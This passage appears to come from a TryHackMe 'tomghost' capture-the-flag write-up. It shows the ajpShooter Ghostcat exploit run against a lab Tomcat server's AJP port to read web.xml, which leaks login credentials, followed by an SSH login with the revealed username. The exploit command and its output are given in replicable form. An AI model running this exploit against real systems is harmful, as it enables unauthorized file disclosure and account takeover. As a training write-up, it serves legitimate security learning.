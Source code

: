 Run the exploit against the webserver:

```text
root@kali:~/thm/tomghost# python3 ajpShooter.py http://10.10.76.159 8009 /WEB-INF/web.xml read

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test
[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
      http://www.apache.org/licenses/LICENSE-2.0
  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        <<HIDDEN>>
  </description>
</web-app>
```

A username and password is revealed, let's try this with ssh on port 22:

```text
root@kali:~/thm/tomghost# ssh skyfuck@10.10.76.159
skyfuck@10.10.76.159's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat May 30 14:46:56 2020 from 10.9.17.195
```
